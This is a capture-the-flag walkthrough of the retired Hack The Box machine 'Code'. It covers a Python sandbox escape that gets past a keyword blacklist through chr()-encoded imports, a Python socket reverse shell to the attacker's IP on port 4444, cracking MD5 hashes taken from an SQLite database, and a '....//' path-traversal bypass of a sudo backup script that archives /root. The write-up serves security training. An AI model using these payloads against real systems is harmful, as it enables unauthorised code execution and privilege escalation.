# Code

## Machine infos

| Name                                             | Release Date | Retire Date | OS    | Level |
| ------------------------------------------------ | ------------ | ----------- | ----- | ----- |
| [Code](https://app.hackthebox.com/machines/Code) | 22-03-2025   | 02-08-2025  | Linux | Easy  |

## Introduction

This machine begins with identifying a Python sandbox where users can test and execute code. We'll find a way to circumvent restricted keywords to execute system commands and set up a reverse shell. We can establish a foothold using credentials stored within an SQLite database instance. Finally, we'll abuse a bash script to escalate our privileges and gain root access.

## Enumeration

`nmap` finds two open TCP ports, SSH (22) and HTTP (5000) :

```bash
nmap -sC -sV -oA nmap/ 10.10.11.62
```

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-23 12:31 CET
Nmap scan report for 10.10.11.62
Host is up (0.034s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)
|   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)
|_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)
5000/tcp open  http    Gunicorn 20.0.4
|_http-server-header: gunicorn/20.0.4
|_http-title: Python Code Editor
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

The website seems to be a sandbox where we can execute Python code : 

 

Testing the above code will work as expected :



However, any attempt at using `import` , `exec`, `eval` or `__builtins__` keywords are restricted : 

   

 

This would have been convenient for us, as importing the `os` Python module might have let us execute system commands.

Hacktrick provides interesting resources to [bypass python sandbox protections and execute arbitrary commands](https://book.hacktricks.wiki/en/generic-methodologies-and-resources/python/bypass-python-sandboxes/index.html#command-execution-libraries), that we'll use to further test what we can do. 

## Python sandbox escape

First let's see what we can access from the sandbox :

 

The `dir()`method reveals interesting classes and modules for us to further enumerate and investigate. So if we can access the `__class__`attribute from the string object, we see that it's base class inherits from the `object` class : 



And if we can access the base class `object`,  then we are able to access its own `subclasses`: 

 

This is important because it allows us to potentially access built-in functions and modules that might be restricted in the sandbox environment. Specifically, we can look for the `__import__` function, which is a built-in function used to import modules dynamically : 

```python
print([ x.__init__.__globals__ for x in ''.__class__.__bases__[0].__subclasses__() if "wrapper" not in str(x.__init__)][0].keys()
)
```

 

By accessing the `__import__` function, we can bypass the restrictions on using keywords like `import` directly. Now the idea would be to access it but since any keywords such as `import` or `os` are blacklisted from the sandbox, we can convert each Unicode character to its integer representation and recreate the string using both the `ord(<str>)` and `chr(<int>)` methods :

```python
>>> [ord(c) for c in list("__import__")]
[95, 95, 105, 109, 112, 111, 114, 116, 95, 95]

"".join([chr(i) for i in [95, 95, 105, 109, 112, 111, 114, 116, 95, 95]])
'__import__'
```

We can update our code :

```python
imp_key = "".join([chr(i) for i in [95, 95, 105, 109, 112, 111, 114, 116, 95, 95]])

print([ x.__init__.__globals__ for x in ''.__class__.__bases__[0].__subclasses__() if "wrapper" not in str(x.__init__)][0][imp_key]
)
```

And test it directly into the sandbox : 

 

As we successfully retrieved the `__import__` builtin function, we can import `subprocess`  and execute system commands as *subprocesses* : 

```python
subprocess.run(['<some command>'], capture_output=True, text=True)
```

We can update our code and retrieve the current user :

```python
# obfuscating `__import__` and `subprocess` strings to escape keywords blacklist
imp_key = "".join([chr(i) for i in [95, 95, 105, 109, 112, 111, 114, 116, 95, 95]])
sub = ''.join([chr(i) for i in [115, 117, 98, 112, 114, 111, 99, 101, 115, 115]])

# retrieving `__import__` builtin from `object` subclasses                  
imp_func = [ x.__init__.__globals__ for x in ''.__class__.__bases__[0].__subclasses__() if "wrapper" not in str(x.__init__)][0][imp_key]

# import subprocess
invoke_sub = imp_func(sub) 
                  
# subprocess.run(['id'], capture_output=True, text=True)                  
cmd_res = invoke_sub.run(['id'], capture_output=True, text=True)
                  
# print out command result           
print(cmd_res)
```



## Foothold

Now, we can easily extend our code and setup a reverse-shell using [python socket](https://highon.coffee/blog/reverse-shell-cheat-sheet/#python-reverse-shell) : 

```python
# obfuscating `__import__`, `os` and `subprocess` strings to escape keywords blacklist
imp_key = "".join([chr(i) for i in [95, 95, 105, 109, 112, 111, 114, 116, 95, 95]]
o_s_key = "".join(chr(i) for i in [111, 115])            
sub = "".join(chr(i) for i in [115, 117, 98, 112, 114, 111, 99, 101, 115, 115])

# retrieving `__import__` builtin from `objects` subclasses                 
imp_func = [ x.__init__.__globals__ for x in ''.__class__.__bases__[0].__subclasses__() if "wrapper" not in str(x.__init__)][0][imp_key]

# import `os`, `socket` and `subprocess`
invoke_o_s = imp_func(o_s_key)
invoke_socket = imp_func('socket')
invoke_sub = imp_func(sub)                  
                              
s=invoke_socket.socket(invoke_socket.AF_INET,invoke_socket.SOCK_STREAM);
s.connect(("10.10.14.81",4444));
invoke_o_s.dup2(s.fileno(),0); 
invoke_o_s.dup2(s.fileno(),1); 
invoke_o_s.dup2(s.fileno(),2);
p=invoke_sub.call(["/bin/sh","-i"]);
```

Setting up netcat from our VM : 

```bash
nc -lnvp 4444
```

and it works! We have a shell

 

And we can get `user.txt` under `/home/app-production` : 

 

## Lateral Movement

 Doing further reconnaissance under the `app` directory :

  

`app.py` displays database hardcoded credentials under `/home/app-production/app/app.py`

 

Checking current users access to the machine :

```bash
app-production@code:~/app$ cat /etc/passwd | grep -i "/bin/bash"
```

 

Trying to *ssh* using the secret key against `app-production` or `martin` does not succeed.

There are some sqlite database under `/instance/database.db`

 

Connecting to sqlite3 database and retrieving schema : 

 

Checking in users tables, we retrieve some users and passwords : 

 

Password hashes seem to be md5 : 

 

A quick search on *CrackStation* will provide a quick result for `martin` user : 

 

Testing those credentials to *ssh* as `martin` is successfull : 

```bash
ssh martin@10.10.11.62
```

 

## Privilege Escalation

We see that `martin` has *sudo* rights over `/usr/bin/backy.sh` script :

 

Looking for that script, there are some `task.json` that displays some configuration inside `backups` directory

 

`task.json` content displays json configuration where we can choose destination for backups and source (directories_to_archive)

 

Testing backy.sh with sudo privilege with the current configuration (task.json) works fine : 

 

As we have root priviledges on backup script, what happens if we set a config file to try to backup `root` directory entirely : 

 

but we get some errors : 

 

Then we can trick the script into going first into one of the allowed directory, then moving back to parent and then root?

 

This time we can run the script, but it fails to make the archive : 

 

As we can see, the script didn't followed our path. instead of `/home/../root`, it went directly to `/home/root`,  couldn't find any related directory and then `tar` command failed. There must be some kind of formatting in the script. 

Inside `/usr/bin/backy.sh` the `updated_json` variable (at line 17) will truncate any `../` string present in `directories_to_archive` value : 

 

We could try to bypass the formatting by adding more dots and achieve a pattern to resolve as `../` .  Doubling every filtered characters (`.` and `/`) might bypass that formatting : 

 

 `backy` doesn't fail this time : 

 

we get our archived folder : 

 

and we are now able to extract root flag : 

```bash
martin@code:~/backups$ tar -xvf code_home_.._root_2025_August.tar.bz2 
```

 

